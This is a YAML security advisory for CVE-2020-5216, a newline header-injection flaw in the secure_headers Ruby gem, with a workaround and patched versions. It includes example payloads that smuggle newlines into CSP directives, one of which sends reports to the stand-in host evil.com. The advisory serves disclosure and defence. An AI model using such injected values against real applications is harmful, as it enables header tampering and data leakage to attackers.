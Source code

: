 ```yaml
---
layout: advisory
title: 'CVE-2020-5216 (secure_headers): secure_headers header injection due to newline'
comments: false
categories:
- secure_headers
advisory:
  gem: secure_headers
  cve: 2020-5216
  ghsa: w978-rmpf-qmwg
  url: https://github.com/twitter/secure_headers/security/advisories/GHSA-w978-rmpf-qmwg
  date: 2020-01-23
  title: secure_headers header injection due to newline
  description: |-
    If user-supplied input was passed into append/override_content_security_policy_directives,
    a newline could be injected leading to limited header injection.

    Upon seeing a newline in the header, rails will silently create a new Content-Security-Policy
    header with the remaining value of the original string. It will continue to create new headers
    for each newline.

    e.g.

    ```
    override_content_security_directives(script_src: ['mycdn.com', "\ninjected\n"])
    ```

    would result in

    ```
    Content-Security-Policy: ... script-src: mycdn.com
    Content-Security-Policy: injected
    Content-Security-Policy: rest-of-the-header
    ```

    CSP supports multiple headers and all policies must be satisfied for execution to occur, but a malicious value that reports the current page is fairly trivial:

    ```
    override_content_security_directives(script_src: ["mycdn.com", "\ndefault-src 'none'; report-uri evil.com"])
    ```

    ```
    Content-Security-Policy: ... script-src: mycdn.com
    Content-Security-Policy: default-src 'none'; report-uri evil.com
    Content-Security-Policy: rest-of-the-header
    ```

    Workarounds
    ```
    override_content_security_policy_directives(:frame_src, [user_input.gsub("\n", " ")])
    ```
  cvss_v3: 4.4
  patched_versions:
  - "~> 3.9"
  - "~> 5.2"
  - ">= 6.3.0"
---
```

